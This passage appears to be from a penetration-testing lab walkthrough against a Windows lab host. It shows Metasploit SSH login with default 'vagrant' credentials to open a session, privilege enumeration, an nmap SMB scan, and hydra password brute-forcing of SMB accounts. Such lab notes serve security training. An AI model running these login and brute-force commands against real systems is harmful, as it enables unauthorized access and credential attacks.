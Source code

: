 ![](.gitbook/assets/image-20230424114533652.png)

- Obtain a `Meterpreter` session

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
setg RHOST 10.2.16.83
setg RHOSTS 10.2.16.83
set USERNAME vagrant
set PASSWORD vagrant
run
session 1
# CTRL+Z to background

sessions -u 1
	[-] Target is running Windows on an unsupported architecture such as Windows ARM!

# The manual msfvenom payload upload can be tried
```

- Back on the SSH session

```bash
bash
net localgroup administrators
whoami /priv
```

![](.gitbook/assets/image-20230424115215390.png)

### [SMB](../1-system-attack/windows-attacks/smb-psexec.md)

> Target IP: `10.2.26.45`
>
> Based on the FTP & SSH Enumeration:
>
> - `administrator`:`vagrant` - **FTP**
> - `vagrant`:`vagrant` - **FTP** + **SSH**

```bash
nmap -sV -sC -p 445 10.2.26.45
```

```bash
445/tcp open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
```

![](.gitbook/assets/image-20230424115855262.png)

- **Brute-force SMB**

```bash
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb
```
